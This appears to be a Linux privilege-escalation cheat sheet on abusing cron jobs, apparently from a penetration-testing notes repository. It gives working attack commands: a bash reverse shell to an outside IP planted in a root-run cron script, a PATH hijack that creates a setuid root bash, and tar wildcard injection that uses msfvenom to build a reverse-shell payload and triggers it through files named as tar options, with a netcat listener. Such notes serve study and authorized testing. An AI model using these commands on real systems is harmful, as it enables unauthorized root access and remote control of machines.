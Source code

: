 # Cronjobs

Cron table files (crontabs) store the configuration for cron jobs.

## Location

```bash
User crontabs are usually located at
/var/spool/cron/
or
/var/spool/cron/crontabs/

System-wide crontab is located at
/etc/crontab
```

Example:

```bash
cat /etc/crontab
...
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

## File Permission

Cronjobs that run as root and we can write to that directory?

Add a bash reverse shell in the file:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.26/53 0>&1
```

## PATH Environment Variable

The crontab PATH environment variable is by default set to `/usr/bin:/bin`

If a program/script does not use absolute path create a script with the same name as the cronjob in the first directory the path look for the files.

Example: `PATH=/home/user/:/usr/local/sbin:/bin`

### Exploit

```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

Make sure the script is executable:

```bash
chmod +x overwrite.sh
```

Wait for the cronjob, get a root shell:

```bash
/tmp/rootbash -p
```

## Wildcards

Abusing TAR arguments.

Cronjob file:

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

### Exploit

Generate a reverse shell using msvenom:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.x LPORT=1234 -f elf -o shell.elf
```

Copy the file to the /home/user directory and make it executable:

```bash
chmod +x /home/user/shell.elf
```

Create two files in the /home/user directory:

```bash
touch /home/user/--checkpoint=1 
touch /home/user/--checkpoint-action=exec=shell.elf
```

Start a netcat listener and wait for the cronjob:

```bash
nc -lnvp 1234
```